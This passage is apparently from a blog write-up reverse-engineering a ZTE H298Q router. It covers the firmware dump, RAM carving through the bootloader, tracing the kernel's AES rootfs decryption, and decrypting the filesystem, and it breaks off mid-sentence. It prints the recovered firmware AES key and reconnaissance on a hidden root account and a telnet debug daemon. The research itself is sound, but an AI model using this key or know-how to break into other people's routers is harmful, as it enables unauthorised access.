    <DM name="Wan_Enable" val="0"/>
    <DM name="Lan_Enable" val="1"/>
    <DM name="TS_Port" val="62323"/>
    <DM name="Max_Con_Num" val="1"/>
    <DM name="Max_Auth_Tries" val="3"/>
    <DM name="Auth_Lock_Time" val="60"/>
    <DM name="TimeoutEnable" val="1"/>
    <DM name="TimeoutInterval" val="300"/>
    <DM name="SecurityEnable" val="1"/>
  </Row>
</Tbl>
```

`Lan_Enable=1`, port 62323, only 1 concurrent connection allowed, 5-minute inactivity timeout, auth required. This looks like it should be running. So I tried connecting:

```text
❯ telnet 192.168.1.1 62323
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused

```

Nothing. `Lan_Enable=1` but connection refused. At this point I had no idea why.

## Can i has rootfs?


So the config gave us some interesting tidbits, but now for the real deal: the rootfs. Binwalk didn't find anything resembling a data partition, so I opened the full firmware dump in ImHex and ran a basic data analysis:



We can see the small bootloader and JFFS2 blips at 0x10000 and 0x2E0000, followed by the two partition slots. The rootfs must live somewhere inside the slots, so I ran a more targeted analysis on slot 0:



The kernel LZMA starts at 0x1180020 and is 0x3B20B8 bytes long, so it should end at 0x15320D8, and it almost does. It's padded to 64k and ends at 0x1540000. That's the first chunk of data, right before the first entropy drop. But there's another blob starting at 0x1540000 and ending at 0x1F6DD90 that Binwalk couldn't identify. Given its size and position, this is almost certainly the rootfs. Finally, there's a third region running from 0x1F80000 to 0x1F8DD90 which is a metadata region for the slot.

### The rootfs is encrypted?
The binary dump of the rootfs header shows:

```text
01540000  BD FC 8C 64 78 7C 8D D5  14 61 83 02 96 77 32 20  ...dx|...a...w2
01540010  E3 7C 56 FF E4 C6 9F 79  5D 1A 4A 2C 6B 50 CA DE  .|V....y].J,kP..
01540020  DF EC C1 8C 96 B8 50 F7  F2 C0 AD 2F 52 B8 C4 B7  ......P..../R...
01540030  D4 1B 15 E2 6E 9E 36 F8  89 35 03 76 49 3D 39 A5  ....n.6..5.vI=9.
01540040  FB C2 BA 62 09 8E 24 B2  67 7E EB 18 32 77 41 6A  ...b..$.g~..2wAj
01540050  FB 06 89 78 91 70 12 6D  00 41 BA 9D 4C 9E F3 FC  ...x.p.m.A..L...
01540060  18 7E 48 CE 12 56 15 CA  DB 85 98 03 4C DD 76 33  .~H..V......L.v3
01540070  AE 24 55 FA 62 CC C3 56  21 3E A4 F8 11 26 DC F5  .$U.b..V!>...&..
01540080  11 AB 86 EA BB 0A 54 3F  22 CD 2F 3E F8 7C 79 DF  ......T?"./>.|y.
01540090  B8 CA F4 D9 39 84 12 C7  B4 CF 39 B7 B2 58 B4 B5  ....9.....9..X..
015400A0  11 4D A6 FE D6 5E FA 16  59 A5 8D 76 8D BE 40 3C  .M...^..Y..v..@<
015400B0  81 1E D0 35 73 85 A0 6E  AF 78 DE 33 92 53 29 D3  ...5s..n.x.3.S).
015400C0  B6 0B C3 0F 7C 23 5B 6B  21 79 1D 70 0B F1 84 35  ....|#[k!y.p...5
015400D0  BC 10 4D 39 75 3F 2B C4  B8 7A 38 5B A9 50 78 72  ..M9u?+..z8[.Pxr
```

This doesn't match anything standard. I ran an entropy analysis on the rootfs range, and it comes back really high and non-fluctuating. That means the data is either compressed or encrypted. It's most likely not compressed, since we'd expect to match magic bytes for some standard format (assuming ZTE hasn't rolled their own compression algorithm, which is unlikely). So the rootfs is, most likely, encrypted.



### Warm boot extract attempt
Before doing any actual reverse engineering (ew), I had a `{l,cr}azy` idea. The router obviously decrypts its own rootfs on every boot? So at some point the plaintext filesystem should exist in RAM. What if I just... let it boot, then reach in and grab it. And I had a way in - bootloader CLI has a `dump` command:

```text
bldr> dump 83fb0000 40
83fb0000  00 00 00 00.00 00 00 00.00 00 00 00.00 00 00 00  |................|
```

The `dump` command allows for arbitrary memory reads and since the SoC only has 256 MB of DRAM we should be able to find it fairly easily (or so I thought). I've prepared a small Python script ([`utils/rootfs_ramcarve.py`](utils/rootfs_ramcarve.py)) that sends `dump` commands over serial and scans for known magic bytes (squashfs headers, ELF, etc). With the script ready, I've booted up the router, connected the UART wiring, rebooted the device using web UI so the RAM contents should survive it since they will never be turned off and manually entered the bootmode. After that I've disconnected my TTY client, and started the Python script.

As for the memory regions to scan - this MIPS Training document [https://training.mips.com/basic_mips/PDF/Memory_Map.pdf](https://training.mips.com/basic_mips/PDF/Memory_Map.pdf) has everything that we need:
> The next two sections kseg0 and kseg1 are designed to be use for the OS code and data. These segments can only be accessed in Kernel mode. If the processor is in User Mode any accesses to the kernel segment it will cause an address error exception. Both kseg0 and kseg1 sections are directly translated to the same lower 512 megabytes of physical memory. For example address 80 million and A0 million both are directly mapped to physical address 0. The difference between the two is, kseg0 addresses are cacheable and can be used once the cache has been initialized. kseg1 address are not cached and are used at boot time and for memory mapped I/O.

During the first run I've been scanning the `KSEG0` memory region - `0x8xxxxxxx` - which is a `kernel/unmapped/cacheable` region. Got no hits - actually I was only getting zeros for every address in this range - most likely due to the fact that cache was not enabled/initialized. I've decided to try the `KSEG1` window - `kernel/unmapped/uncached` and finally got some hits:

```text
❯ ./rootfs_ramcarve.py --port /dev/ttyACM0 --scan --uncached
[  7.6%] 0x813b0000   3a 20 25 73 20 73 65 74 20 67 65 6e 65 72 61 6c   [HIT] 0x813c00c6  b'/bin/sh'
[ 68.1%] 0x8ae70000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   [HIT] 0x8ae80000  b'\x7fELF'
[ 68.4%] 0x8af30000   89 50 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52   [HIT] 0x8af40000  b'\x7fELF'
[ 68.7%] 0x8b000000   26 73 00 04 92 02 00 07 02 42 10 2a 54 40 ff f4   [HIT] 0x8b010000  b'\x7fELF'
[ 72.9%] 0x8bac0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   [HIT] 0x8bad0000  b'\x7fELF'
[ 76.7%] 0x8c470000   11 00 00 00 00 00 12 0a 00 00 03 90 00 00 00 04   [HIT] 0x8c480000  b'\x7fELF'
[ 77.1%] 0x8c550000   00 0e 6a 02 35 a7 08 00 a5 87 00 00 90 99 00 01   [HIT] 0x8c560000  b'\x7fELF'
[ 79.3%] 0x8cb10000   8c af 22 50 08 10 00 00 71 54 79 60 00 00 00 00   [HIT] 0x8cb200b4  b'\x7fELF'
[100.0%] 0x8fff0000   ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
=== summary ===
  b'/bin/sh'               x1    first@0x813c00c6  shell path
  b'\x7fELF'               x7    first@0x8ae80000  ELF binary
```

... some ELFs and a shell path - but no filesystem headers/magic bytes. The hits are not contiguous, spread across large span of memory, all of them are 4k aligned - this looks like page-cache related data, not the rootfs that I'm looking for.

### Static analysis?
Previous warm-boot analysis attempt was interesting, but I kind-of gave up on it after the lack of initial success. It looked promising - but I was not sure of whether this could even work. What about MMU configuration? Would it be possible that some mappings are hidden, or the TLB might be misconfigured? Would the entirety of the rootfs be mapped to the kernel-access memory window? Even if we managed to locate the rootfs - dumping it over UART would be a timely and error prone process. In other words I was *reaching*, and decided to go the safe way of statically extracting the rootfs.


To determine what is decrypting the image, I've ran a grep on the strings output of the bootloader and the slot images:

```text
# bootloader
❯ strings 10000/decompressed.bin \
   | rg -i "(aes|des|rsa|md5|sha1|sha256|sha512|gcm|cbc|ecb|crypt|decrypt|cipher|key|passphrase|password|IV|Td0|Te0)"

correct cmd:xw [u1CHannelID] [u2ClkDiv] [u1DevAddr] [u1WordAddrNum] [u4WordAddr] [u2ByteCnt] [data]
correct cmd:i2c_read [u1CHannelID] [u2ClkDiv] [u1DevAddr] [u1WordAddrNum] [u4WordAddr] [u2ByteCnt]
START TO RECEIVE the FILE
received len=%x
received error
### Please input boot password:###
Xmodem receive to addr.
receive ok
receive_len < imagelen
Received file: %s
Total %d (0x%X) bytes received
!!! NO DSA KEY !!!
!!! NO DSA KEY NO TAG !!!
boot key1 check erro
boot key2 check erro
Firmware key1 check erro
Firmware key2 check erro
public_key inited but CSPBOOT_VERIFY_SIGN_XXX not enable
(netif = ip_route(dest)) == NULL
Please press enter key to return the bootloader.
RX Error: no available QDMA RX descritor
```

The `NO DSA KEY` ([https://en.wikipedia.org/wiki/Digital_Signature_Algorithm](https://en.wikipedia.org/wiki/Digital_Signature_Algorithm)) looked interesting, but it looks like (based on the surrounding strings context) it's a part of a bootloader's upgrade process:

```text
❯ strings 10000/decompressed.bin | rg 'NO DSA KEY' -C15
fpga mode, phy init quit
Search PHY addr and found PHY addr=%d
header crc check erro crcret:0x%x, dwAllHeaderCrcCheckSum:0x%x
fwclass err!
not found kernel magic number, @0x%x!
found kernel magic number 0x%x, 0x%x, 0x%x, 0x%x is error!
-------------kernel crc error! crcret:0x%x, dwVmlinuzCrcCheckSum:0x%x
-------------jffs crc error! crcret:0x%x, dwJffsCrcCheckSum:0x%x
Failed to get sector num!
!!error kernel_addr != KERNEL_ADDR
 please modify boot and kernel  to %08x
Error: no image is available
V1.0.0
V7.0
****Total Img Num: %d, Valid Img Num: %d, Try the %dth(0|1) image...
!!! NO DSA KEY !!!
!!! NO DSA KEY NO TAG !!!
Upgrade boot error!
 The size of boot is too great!!!
boot crc check erro
boot key1 check erro
boot key2 check erro
Failed to erase boot...
Writing boot mem:%p to flash:0x%p, len = 0x%x
Failed to write boot...
======write boot ok!======
Magic check erro!
Firmware key1 check erro
Firmware key2 check erro
csp versionLowStartAddr = 0x%p
csp versionLowEndAddr = 0%p
csp versionHighStartAddr = 0x%p
```

But there's no AES, RSA, etc stings inside the bootloader - so I'm assuming that Linux might decrypt the rootfs after the kernel has been decompressed. I've ran the same command for the slot 0 image and got a lot of hits:

```text
❯ strings 1180020/decompressed.bin \
   | rg -i "(aes|des|rsa|md5|sha1|sha256|sha512|gcm|cbc|ecb|ctr|rootfs|root_fs|/root|crypt|cryptsetup|decrypt|cipher|key|passphrase|password|IV|Td0|Te0|libcrypto|libssl|libcrypt)" | wc -l
2266
```

so I've narrowed down the matching strings a bit:

```text
❯ strings 1180020/decompressed.bin | rg -i "(aes|des|rsa).*decrypt*"
RT_AES_Decrypt
RT_AES_Decrypt: plain block size is %d bytes, it must be %d bytes(128 bits).
RT_AES_Decrypt: key length is %d bytes, it must be %d, %d, or %d bytes(128, 192, or 256 bits).
RT_AES_Decrypt: cipher block size is %d bytes, it must be %d bytes(128 bits).
AES_CCM_Decrypt: The key length must be %d bytes
AES_CCM_Decrypt: A valid nonce length is 7-13 bytes
AES_CCM_Decrypt: The MAC length  must be 4, 6, 8, 10, 12, 14, or 16 bytes
AES_CCM_Decrypt: The PlainTextLength is not enough.
AES_CCM_Decrypt: The MIC does not match.
AES_CBC_Decrypt: cipher text length is %d bytes, it can't be divided with no remainder by block size(%d).
AES_CBC_Decrypt: key length is %d bytes, it must be %d, %d, or %d bytes(128, 192, or 256 bits).
AES_CBC_Decrypt: IV length is %d bytes, it must be %d bytes(128bits).
```

Shiny! AES! Interesting! Looking back at the binwalk output for the 0th slot:

```text
                         extractions/firmware-dump1.bin.extracted/1180020/decompressed.bin
-----------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------------------------------------------------------------
7766120                            0x768068                           Linux version 4.4.115 (xialei@host-10-57-81-204) (gcc version 4.6.3 (Buildroot
                                                                      2015.08.1) ) #1 SMP Thu Oct 20 19:04:55 CST 2022, has symbol table: false
8003200                            0x7A1E80                           CRC32 polynomial table, little endian
8082868                            0x7B55B4                           SHA256 hash constants, big endian
8083884                            0x7B59AC                           AES S-Box
8084684                            0x7B5CCC                           AES S-Box
9665888                            0x937D60                           CRC32 polynomial table, big endian
9669232                            0x938A70                           AES S-Box
10371072                           0x9E4000                           ELF binary, 32-bit shared object, MIPS for System-V (Unix), big endian
-----------------------------------------------------------------------------------------------------------------------------------------------------------
```

There are mentions of AES S-Box 🤔

### eli5: AES
AES was designed by Joan Daemen and Vincent Rijmen (originally as Rijndael, ~1998), won NIST's competition in 2000, and became the official standard in 2001. It's a symmetric cipher: one secret key for both directions - the same key that scrambles your data unscrambles it. No public half, no private half, nothing clever. It's also a block cipher, so it doesn't flow over data like a stream - it always works on fixed 16-byte chunks. The key is `{16,24,32}` bytes long, which is where `AES-{128,192,256}` comes from.

Now the part that actually matters for us. AES does its scrambling with lookup tables, and those tables are fixed by the standard. The S-Box (substitution-box) is a 256-byte table that *always* starts with `63 7c 77 7b f2 6b 6f c5 30 01 67 2b fe d7 ab 76 ...` - it swaps individual bytes, so `0x00` becomes `0x63`, `0x01` becomes `0x7c`, and so on. There's an inverse S-Box for going the other way. Same table on every machine on the planet.

The S-Box is the first step of an AES round - a cycle of operations that progressively scrambles the data, repeated 10 (AES-128), 12 (AES-192), or 14 (AES-256) times depending on key size. Each round runs four steps in order:
1. SubBytes - swap each byte through the S-Box
2. ShiftRows - shift the rows of the state around
3. MixColumns - mix each column together for diffusion
4. AddRoundKey - XOR in the round key

Steps 1-3 scramble beautifully but have one problem: done byte-by-byte in software they're painfully slow. And since the S-Box, ShiftRows and MixColumns never change, the result is identical every single time.

So implementations don't do the math at runtime - they ship a precomputed table with all three steps already baked together. This trick is called T-Tables (good read: [https://blog.tclaverie.eu/posts/understanding-golangs-aes-implementation-t-tables/](https://blog.tclaverie.eu/posts/understanding-golangs-aes-implementation-t-tables/)).
- `Td{0,1,2,3}` for decryption
- `Te{0,1,2,3}` for encryption

And, again, these are always the same - PTAL at `openssl`'s `aes_core.c`: [https://github.com/openssl/openssl/blob/77f492f29f882e07d57e16920138d991dc9af018/crypto/aes/aes_core.c#L971-L1036](https://github.com/openssl/openssl/blob/77f492f29f882e07d57e16920138d991dc9af018/crypto/aes/aes_core.c#L971-L1036). Fun tangent: `AES-NI` is an x86 ISA extension that computes the whole round in silicon, so you don't need the T-Tables at all.

Last piece - what if our data is longer than 16 bytes? The naive approach is to chop it into `n * 16` byte chunks and encrypt each one on its own. That's AES-ECB (Electronic Codebook), and it's flawed: identical plaintext blocks encrypt to identical ciphertext blocks, so the data's patterns leak straight through. This is the infamous penguin:



The usual fix is CBC, where each plaintext block gets XORed with the previous block's ciphertext before going into the cipher - so everything chains and a repeated block never encrypts the same way twice. Which raises the obvious question: what does the *first* block chain against, since there's nothing before it? The answer is the Initialization Vector (IV) - which you might remember from the database decryption step! There are a bunch of other modes that don't matter here, so I'll just name them:
- Counter Mode (CTR)
- Cipher Feedback (CFB)
- Counter with CBC-MAC (CCM)
- XEX-based Tweaked-codebook mode with ciphertext stealing (XTS)
- Counter with Cipher Block Chaining Message Authentication Code Protocol (CCMP-AES)


For us this means that if we find a `Tdx` bytes within a binary, we should be able to trace back to the place which decrypts the blocks, so we should be able to find the key!

### Static (symbol-less) kernel analysis!
Time to decompile the Linux image (it's the part I suspect does the decryption) and search for the S-Box and T-Tables.

I've loaded the slot 0 data (`1180020/decompressed.bin`) into Ghidra as `MIPS:BE:32:default` with memory base address of `0x80002000` and ran auto-analysis. Binwalk said `has symbol table: false` which is true, nothing but `FUN_8012xxxx` "symbols". But when scrolling over the data, I've seen actual symbol names:



### `kallsyms` - why a "stripped" kernel isn't
Because the Linux kernel keeps its *own* symbol table baked in, separate from the ELF one that got stripped.
The feature is called **kallsyms** ("kernel all-symbols"), and stripping the ELF symbols doesn't touch it - it lives in its own arrays in the kernel's read-only data. The data structures used to index and map the symbol name to a given offset are pretty complex:
- sorted array of function addresses
- parallel array of compressed symbol names in the same order
- 256-entry token table for dictionary decompression


Fortunately there's a tool **[vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)** that does everything for us:

```text
[+] Version string: Linux version 4.4.115 (xialei@host-10-57-81-204) (gcc version 4.6.3 (Buildroot 2015.08.1) ) #1 SMP Thu Oct 20 19:04:55 CST 2022
[+]   Other related strings containing the version number: [b'Linux version 4.4.115 (xialei@host-10-57-81-204) (gcc version 4.6.3 (Buildroot 2015.08.1) ) #1 SMP Thu Oct 20 19:04:55 CST 2022', b'4.4.115', b'/lib/firmware/updates/4.4.115', b'/lib/firmware/4.4.115', b'4.4.115']
[+] Guessed architecture: mipsbe successfully in 0.09 seconds
[+] Kernel found in database
[+]   Read kernel source: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/?id=v4.4
[+]   Download kernel: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/snapshot/v4.4.tar.gz
[+]   Kernel release date: 2016-01-10
[+]   Interesting files:
[~]     - kernel/kallsyms.c: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/kernel/kallsyms.c?id=v4.4
[~]     - scripts/kallsyms.c: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/kallsyms.c?id=v4.4
[~]     - include/linux/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/elf.h?id=v4.4
[~]     - include/uapi/linux/elf-em.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/elf-em.h?id=v4.4
[~]     - include/uapi/linux/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/elf.h?id=v4.4
[~]     - Documentation/Changes: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/Documentation/Changes?id=v4.4
[+]   Architecture mips (EM_MIPS) supports 32-bit, 64-bit, big-endian, little-endian
[~]     - arch/mips/boot/compressed/head.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/boot/compressed/head.S?id=v4.4
[~]     - arch/mips/boot/compressed/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/boot/compressed/Makefile?id=v4.4
[~]     - arch/mips/kernel/vmlinux.lds.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/kernel/vmlinux.lds.S?id=v4.4
[~]     - arch/mips/kernel/head.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/kernel/head.S?id=v4.4
[~]     - arch/mips/kernel/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/kernel/Makefile?id=v4.4
[~]     - arch/mips/boot/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/boot/Makefile?id=v4.4
[~]     - arch/mips/include/asm/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/mips/include/asm/elf.h?id=v4.4
[+]   Suggested build environment: docker run -it debian/eol:jessie (Debian 8.0 "Jessie" released 2015-04-25)
[+] Found kallsyms_token_table at file offset 0x00841b90
[+] Found kallsyms_token_index at file offset 0x00841ec0
[+] Found kallsyms_markers at file offset 0x008419f0
[+] Found kallsyms_names at file offset 0x007f6140 (26229 symbols)
[+] Found kallsyms_num_syms at file offset 0x007f6130
[+] Null addresses overall: 0 %
[+] Found kallsyms_addresses at file offset 0x007dc750
[+] Guessed the base address using the first_symbol_virtual_address fallback heuristic (80002000)

input_file_start: 00000000
kallsyms_addresses_or_offsets: 007dc750
kallsyms_num_syms: 007f6130
kallsyms_names: 007f6140
kallsyms_markers: 008419f0
kallsyms_token_table: 00841b90
kallsyms_token_index: 00841ec0
kallsyms_token_index_end: 008420c0
```

We can either generate a simple `readelf` symbol mapping file:

```text
80002000 T _stext
80002000 T _text
80002000 T __kernel_entry
80002010 t run_init_process
80002048 t try_to_run_init_process
800020a4 T do_one_initcall
800022e0 T name_to_dev_t
80002770 t match_dev_by_uuid
800027a4 t rootfs_mount
80002810 W calibrate_delay_is_known
80002818 W calibration_delay_done
80002820 T calibrate_delay
80002b40 T prom_putchar
80002b68 T prom_write
80002bcc T dying_gasp_setup_mem_cpu
...
```

... or generate an ELF file with the symbol metadata included! I've generated such file and loaded it in Ghidra.

### Static (symbol-ful) kernel analysis!



Hell yeah. Now we can resume our AES flow analysis.
> For us this means that if we find a Tdx bytes within a binary, we should be able to trace back to the place which decrypts the blocks, so we should be able to find the key!

I've copied OpenSSL's `Td0` first entry: `0x51f4a750U` and searched the memory in Ghidra:



bingo!



We now can examine the XREF flow to transverse call stack upwards. I've decided to analyze the `AES_decrypt` function, but we should end up in the same place if we analyzed `AES_set_decrypt_key`.



`AES_KEY *key` is literally one of the function arguments! That's what need to find - the call sites, for which we can use XREFs again. The first one (Entry Point) is the function itself, the last one is a reference to the symbol name in the ELF structures the middle one is an actual call site, by the way, we can see the AES in action in the disassembly view). If we take a look at the functions surrounding the `AES_decrypt` function:



The surrounding functions are named `mtd_blktrans_*`, `register_mtd_blktrans`, `mtdblock_readsect`. ZTE compiled the AES straight into the MTD block layer. It's transparent, on-the-fly, per-sector decryption - the FS only ever sees plaintext. Anyways - taking a look at `handle_buf.constprop.3` (called from [part_read](https://elixir.bootlin.com/linux/v4.4.115/source/drivers/mtd/mtdpart.c#L61)):



After some strategic renaming and RE - the pseudo-C looks like:

```c
undefined4 handle_buf.constprop.3(uint param_1, uchar *param_2)
{
  uchar *key_dest;
  char *key_ptr;
  int bytes_remaining;
  uchar key_buffer [16];
  AES_KEY aes_schedule;
  uchar current_char;
  // ...

  // zero-init key_buffer and aes_schedule
  memset(key_buffer, 0, 16);
  memset(&aes_schedule, 0, 244);

  key_dest = key_buffer;
  key_ptr = rootfs_aes_key;
  bytes_remaining = 16;

  do {
    current_char = *key_ptr;
    bytes_remaining--;

    *key_dest = current_char;
    key_dest++;

    // AES key shorter than 16 bytes
    if (current_char == '\0') {
      break;
    }

    key_ptr++;
  } while (bytes_remaining != 0);

  // OpenSSL:
  // int AES_set_decrypt_key(const unsigned char *userKey, const int bits, AES_KEY *key)
  AES_set_decrypt_key(key_buffer, 128, &aes_schedule);

  // ...
}
```

So this code copies the string pointed under the `rootfs_aes_key` address into a local stack buffer. After that it passes that buffer into OpenSSL's `AES_set_decrypt_key` to build the decryption for the on-the-fly sector reads. But `rootfs_aes_key` is just an address in the `.bss` section! So the key must be generated in the runtime.



We can see that there is another function that references this address! Let's take a look at the `combine_token`:



Again, after some renames:

```c
void combine_token(void)
{
    char *left_ptr;
    char *right_ptr;
    char temp_byte;

    sprintf(rootfs_aes_key, "%s%s", "H298Q", "995bbb7e860");  // rootfs_aes_key == "H298Q995bbb7e860"

    left_ptr = rootfs_aes_key + 5;
    right_ptr = rootfs_aes_key + 15;

    do {
        temp_byte = *left_ptr;
        *left_ptr = *right_ptr;
        left_ptr = left_ptr + 1;
        *right_ptr = temp_byte;
        right_ptr = right_ptr + -1;
    } while (left_ptr != rootfs_aes_key + 10);

    return;
}
```

I couldn't be bothered to trace this step by step, so I've just ran the code to get the AES key:



`H298Q068e7bbb599` *should be* the AES key for the rootfs!

### Decrypting the rootfs
Used [pycryptodome](https://github.com/Legrandin/pycryptodome) and assumed AES-ECB, which is the only one that makes sense in the random access context. The decryption script is at [`utils/decrypt_rootfs.py`](utils/decrypt_rootfs.py) - it slices the rootfs region out of the full dump and decrypts with the key we found (`H298Q068e7bbb599`).

Which resulted in:

```text
zte-dump-rootfs ❯ ./decrypt.py
b'hsqs' # SquashFS!

zte-dump-rootfs ❯ file rootfs.decrypted.bin
rootfs.decrypted.bin: Squashfs filesystem, little endian, version 4.0, lzma compressed, 10673541 bytes, 1797 inodes, blocksize: 131072 bytes, created: Thu Oct 20 11:19:08 2022

zte-dump-rootfs ❯ sudo unsquashfs rootfs.decrypted.bin
Parallel unsquashfs: Using 16 processors
1737 inodes (1618 blocks) to write

created 1407 files
created 60 directories
created 74 symlinks
created 255 devices
created 1 fifo
created 0 sockets
created 0 hardlinks
```

## Kernel + userspace analysis

```text
❯ strings lib/libssl.so.1.0.0 | rg "^OpenSSL"
OpenSSL 1.0.1l 15 Jan 2015

❯ strings bin/busybox | rg "BusyBox v"
BusyBox v1.17.2 (2022-10-20 19:15:33 CST)

❯ strings lib/libuClibc-0.9.33.2.so | head -1
uClibc-0.9.33.2

❯ strings bin/cspd | rg GCC | head -1
GCC: (Buildroot 2015.08.1) 4.6.3
```

The firmware was built in 2022 with a toolchain from 2015 and libraries from 2012. OpenSSL `1.0.1l` is pre `1.0.2` - it predates the TLS 1.2 fixes and has a pile of known CVEs.

Interesting binaries:

```text
bin/cpeserver - TR-069 / CWMP
bin/tddiag    - diag?
bin/cspd      - ZTE CSP daemon?
bin/ated      - Ralink/MediaTek ATE factory test agent (L2 magic-packet listener)
bin/mqtt
bin/httpd
```

### Authentication / CA certificates
Just for the sake of it I've taken a look at `/etc/passwd`:

```text
r8o2R*T6:x:0:0:root:/root:/bin/sh

```

The uid-0 account isn't `root` - it's `r8o2R*T6`. The password is a `$5$` SHA-256 hash in `/etc/shadow`, I've not attempted to crack it yet.

TR069 certificates are stored at `/etc/tr069/ca-cert.crt`:

```text
C = PL, ST = [REDACTED], L = [REDACTED], O = [ISP]
```

### Build artifacts shipped in release?
While listing the web root I noticed something weird in `/home/httpd/public/css/`:

```text
❯ ls home/httpd/public/css/
commonpage.css  home.css  login.css  login_mobile.css  Makefile
Makefile.haikui  Makefile.pong  Rules.mak  template.css  topo.css
topo_v2.css  webd_adaptor_multiap_roam.c  wizard.css  wizard_v2.css

```

A `.c` file and Makefiles. In the **CSS directory**. Served by the web server. What?

The C source has a ZTE copyright header, author name (`jiang.jinhua`), date (`2018-09-08`), and Chinese comments describing internal API adaptor functions. The `Makefile`s reveal the internal build path: `/home/ws/en7516gt/chip_en7516gt/product/H298QV70_[ISP]/scripts/`. Interesting - it means that the ISP outsources the "BSP" work to ZTE.

## Finding ~Nemo~ Telnet
My initial instinct here was to see whether any sort of `telnetd` service was enabled in the init script:

```text
~/workspace/zte-dump-rootfs-decrypt/squashfs-root
❯ fd telnetd
bin/telnetd

~/workspace/zte-dump-rootfs-decrypt/squashfs-root
❯ rg -i 'telnetd'
etc/init.norm
100:# �����������ƣ�������telnetd   #
103:#telnetd&s

etc/init.debug
111:# �����������ƣ�������telnetd #
114:#telnetd&

```

Taking a look at the `init.norm` script:

```sh
#临时修改
#ifconfig rasw up;

#ifconfig eth0 promisc

#################################
# 设置主机名称，不启动telnetd   #
#################################
hostname "ZXHN H298Q"
#telnetd&s

```

"临时修改" -> "Temporary changes"

"设置主机名称，不启动telnetd" -> "Set the hostname; do not start telnetd"

No easy wins, I guess.

But since telnet is in a quantum state of being both enabled in the config and disabled in the real world, I needed a way to collapse this quantum system. I began by (yet again) grepping for some related strings (from the config):

```text
❯ fd --type f --exec sh -c 'strings {} | rg -q "TelnetDebug" && echo {}' \;
./lib/libcmapi.so
./bin/cspd
./bin/tddiag

```

The `libcmapi` library is "the API library for ctlmgr and its plugins", from [Property:libcmapi.so - boxmatrix.info](https://web.archive.org/web/20221129174347/https://boxmatrix.info/wiki/Property:libcmapi.so). No specific Telnet-related info there on the website. Also, a library won't start the daemon on its own, so it's most likely not that. Per the [Reverse Engineering Stack Exchange post](https://reverseengineering.stackexchange.com/questions/14882/how-to-decrypt-the-config-bin-from-zte-zxv10-h201l), `cspd` "is an internal system binary responsible for database and configuration management, including compressing, encrypting, and decrypting backup configuration files".

Finally, `tddiag` - this one is pretty interesting, as there are almost no results on Google:

```text
❯ file ./bin/tddiag
./bin/tddiag: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped

~/workspace/zte-dump-rootfs-decrypt/squashfs-root
❯ md5sum ./bin/tddiag
5eb20dd61f696af70a3a24e4fc3e2592  ./bin/tddiag

❯ stat ./bin/tddiag
  File: ./bin/tddiag
  Size: 41928      Blocks: 88         IO Block: 4096   regular file
Device: 259,4 Inode: 924660      Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (  501/ UNKNOWN)   Gid: (  501/ UNKNOWN)
Access: 2022-10-20 13:19:07.000000000 +0200
Modify: 2022-10-20 13:19:07.000000000 +0200
Change: 2026-08-02 22:44:25.629061508 +0200
 Birth: 2026-08-02 22:44:25.625061487 +0200
```

Unfortunately, it's stripped - but we can still run strings on it:

```text
❯ strings ./bin/tddiag | wc -l
527

```

A manageable size. Here are a couple of the more interesting ones:

```text
fork
execv
dlopen

TELNETDEBUG.1.telnetd
telnetdebug
source/telnet_debug.c
the td details ==
                    enable: %d
                    state :%d
                    fd:%d
                    IPv6fd:%d
                    port        :%d
                    MaxConNum:%d
                    Wan_Enable:%d
                    Lan_Enable:     %d

Telnet: log out shell.

start telnetd failed because cannt create socket
run telnetd ipv4 success
ipv6 start telnetd failed because cannt create socket
run telnetd ipv6 success
run telnetd failure !
ShowOpDetail Switch: %d ->
  ShowCfg     -- Show telnet shell configuration.
  ShowSession -- List all telnet session.
  SwitchShow  -- Toggle the show switch of the session message.
skfd  inIP  skBufSize  InIdx  OutIdx  ptys  shellID  PtyBufSize  InIdx  OutIdx
---------------------------------------------------------------------------------------------------------------
%d  %s  %d  %d  %d   %s  %d  %d  %d
%d  %x  %d  %d  %d   %s  %d  %d  %d
/dev/ptyXY
pqrstuvwxyzabcde
open pty success, PtysName=%s
cant use pty=%s for errno=%d
getpty failed!

Close Socket %d failed
stop telnetd success
stop telnetd failed because cannt close socket
port be changed,should stop telnetd first
Stop telnetd Failed
Stop telnetd success
Run telnetd Failed
Run telnetd success
enter CmSetTelnetdCfg

Unable to create the time
Login:
Password:
telnet: login failed.
User name or Password is incorrect
Login fail,exceed %d times! wait %d seconds!
Open File Error
/bin/sh
TelnetDebug
 username too long
 user pwd too long
CheckTelnetdCfg ok

```

Definitely lots of juicy stuff here!

## Who's calling ~Nemo~ Telnet?
But what starts it? If we have a call site, we should be able to figure out how to hook into it - so let's do yet another strings:

```text
